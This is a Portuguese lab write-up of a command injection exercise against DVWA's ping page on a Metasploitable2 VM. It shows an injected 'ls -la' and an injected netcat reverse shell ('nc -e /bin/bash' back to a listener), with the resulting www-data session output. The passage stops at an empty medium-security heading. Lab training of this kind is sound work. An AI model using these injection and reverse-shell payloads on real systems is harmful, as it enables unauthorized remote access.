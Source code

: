 # Command Injection

Esse exercício é realizado na VM do metasploit2. 
- Após iniciar a VM, abrir on endereço IP da VM em um browser
- Selecionar o botão **Command Execution**

!command execution

## Segurança baixa

Para executar o camando ping basta entra o IP desejado e clicar em *submit*

!ping

Em seguida obtermos o resultado:

!ping resultado

**A questão:** É possivel injetar comando 'alienígêna' no prompt? 
- Usando o separado ';' injetamos o comando 'ls -la'

`192.168.1.10; ls -la`

!injeção de ls -la

E obtemos o seguinte resultado:

!injeção de ls -la resultado

Assim, é possível injetar umcomando malicioso no prompt.
- Para obter um sessão netcat com o alvo, iniciamos o netcat em modo listener em nossa máquina.

`nc -lvp 12345` - onde 12345 é a porta que seleciomos para a escuta.
```
└─$ nc -lvp 12345
listening on [any] 12345 ...
```

- No prompt da página web, injetamos o comando netcat com a mesma porta do listener.

`192.168.1.10; nc -e /bin/bash 192.168.1.10 12345`

!injeção netcat

Em nosso terminal obtemos uma conexão com o VM através do netcat.
```
connect to [192.168.1.10] from (UNKNOWN) [192.168.1.33] 49007

whoami
www-data

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

groups
www-data

ls -la
total 20
drwxr-xr-x  4 www-data www-data 4096 May 20  2012 .
drwxr-xr-x 11 www-data www-data 4096 May 20  2012 ..
drwxr-xr-x  2 www-data www-data 4096 May 20  2012 help
-rw-r--r--  1 www-data www-data 1509 Mar 16  2010 index.php
drwxr-xr-x  2 www-data www-data 4096 May 20  2012 source
```
## Segurança média
